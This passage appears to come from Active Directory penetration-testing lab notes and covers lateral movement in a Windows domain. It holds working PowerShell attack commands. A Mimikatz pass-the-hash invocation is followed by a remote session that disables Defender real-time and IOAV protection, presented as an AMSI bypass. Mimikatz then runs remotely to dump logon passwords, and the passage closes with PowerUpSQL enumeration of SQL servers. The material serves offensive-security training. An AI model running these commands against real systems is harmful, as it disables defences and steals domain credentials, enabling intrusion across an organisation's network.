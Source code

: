 ```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'
```

### <span style="color:#F1C232">4. Create new session and dump hashes</span>

```powershell
#Create a session for remoting system
$sess = New-PSSession -ComputerName <computer-name>

#Bypass AMSI
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; whoami} -Session $sess

#Locally load mimikatz on your own system
Import-Module .\Invoke-Mimikatz.ps1

#Execute locally loaded functions remoting system
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz -command '"sekurlsa::logonpasswords"'} -Session $sess
```

# <span style="color:lightblue">MS-SQL Enumeration - Part 1</span>

* MS SQL servers are generally deployed in plenty in a Windows domain.
* SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

For importing the script use the following command

```powershell
Import-Module .\PowerUpSQL.psd1
```

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Check the SPN's
- [x]  2. Check which SPN's you have access to
- [x] 3. Check the Privileges you have of the above filtered SPN's
- [x] 4. Keep note of the **Instance-Name**, **ServicePrincipalName** and the **DomainAccount-Name**
- [x] 5. If you find any service with *higher privileges* continue below to abuse it

## <span style="color:lightgreen">PowerUpSQL Enumeration</span>

### <span style="color:#F1C232">1. Enumerate SPN</span>

```powershell
Get-SQLInstanceDomain
```
